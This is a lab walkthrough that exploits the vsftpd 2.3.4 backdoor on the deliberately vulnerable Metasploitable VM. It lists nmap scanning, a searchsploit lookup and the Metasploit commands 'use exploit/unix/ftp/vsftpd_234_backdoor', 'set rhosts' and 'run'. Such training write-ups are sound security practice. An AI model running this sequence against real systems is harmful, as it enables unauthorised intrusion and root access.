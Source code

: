  ## Metasploitable Writeup ##

 
 **Metasploitable**   is a virtual machine is an intentionally vulnerable version of Ubuntu Linux designed for testing security tools and demonstrating common vulnerabilities.
###  Gain root access on this machine:  ###

Login to your kali or any other Linux distribution, in my case I use Kali Linux 

•	Login to the Metasploitable machine 

• Login username and password, in this case, is: ***msfadmin***

  ![2](https://user-images.githubusercontent.com/58820314/107451148-60780980-6b4f-11eb-8a33-ce0c5302154b.png)

•	Check the IP address for this machine by : ***ifconfig***

![1](https://user-images.githubusercontent.com/58820314/107451122-52c28400-6b4f-11eb-9a93-48b02d9ffd6b.png)

•	Now we need to make sure that we can ping on the machine by using this command **ping 192.168.3.130** where the IP of the machine is **192.168.3.130** and here no packet loss which means the connection is successful. 

![3](https://user-images.githubusercontent.com/58820314/107451152-6110a000-6b4f-11eb-942f-2e2e8cfd6c75.png)


•	Next step is to doing scanning for open ports and for service version using nmap and the command : **nmap -sV 192.168.3.130**

![6 ](https://user-images.githubusercontent.com/58820314/107451162-64a42700-6b4f-11eb-8ff9-8352b3068cee.png)

You can test any service here and for me, I used **(vsftpd 2.3.4)**

The File Transfer Protocol (FTP) is a standard network protocol used for the transfer of computer files between a client and server on a computer network, vsftpd, which stands for "Very Secure FTP Daemon”, is an FTP server for Unix-like systems, including Linux.

•	In this step we search for vulnerability on this service using this command  **serachsploit vsftpd**

![4](https://user-images.githubusercontent.com/58820314/107451158-62da6380-6b4f-11eb-83a1-641787528b49.png)

Here we found vulnerabilities but we will use a specific one to gain access:  **vsftpd 2.3.4 - Backdoor Command Execution (Metasploit)|unix/remote/17491.rb**

•	Now we need to open the **Metasploit framework** to use this vulnerability but we should start the database using these commands

1.	**sudo msfdb start**

2.	**msfconsole**

![5](https://user-images.githubusercontent.com/58820314/107451159-6372fa00-6b4f-11eb-88e0-e6cf62ae70b0.png)

•	next step is to search for the vsftpd on metaspoloit using this command  **search vsftpd**

![7](https://user-images.githubusercontent.com/58820314/107451166-65d55400-6b4f-11eb-8aa2-e213136ac1a3.png)

•	Here we found the backdoor to gain access which is  **exploit/unix/ftp/vsftpd_234_backdoor**

•	We going to use this backdoor using this command  **use exploit/unix/ftp/vsftpd_234_backdoor**

•	we have to see the options for this backdoor by this command **options** 

•	next step is to identify the **RHOST IP** (the metasploitable IP) by this command **set rhosts 192.168.3.130**

•	the final step is to run our script by this command 

**run**  



